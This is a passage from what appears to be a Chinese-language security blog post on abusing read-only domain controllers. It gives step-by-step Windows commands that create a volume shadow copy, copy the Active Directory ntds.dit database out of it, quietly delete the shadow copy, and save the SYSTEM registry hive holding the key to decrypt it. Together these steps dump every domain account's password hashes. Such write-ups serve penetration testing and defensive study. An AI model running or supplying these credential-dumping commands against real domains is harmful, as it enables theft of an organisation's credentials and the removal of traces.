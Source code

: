 ```
vssadmin create shadow /for=C:
```

![image-20231123104050169](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123104050169.png)

（2）然后在创建的卷影拷贝中将 ntds.dit 复制出来：

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\NTDS\ntds.dit C:\ntds.dit
```

![image-20231123104232300](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123104232300.png)

最后，可以将刚刚创建的卷影拷贝删除：

```
vssadmin delete shadows /for=c: /quiet
```

（3）提取出 ntds.dit 后，还需要转储 SYSTEM 注册表，因为 SYSTEM 中存放着 ntds.dit 的密钥：

```
reg save hklm\system c:\system.save
```

![image-20231123104509991](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123104509991.png)

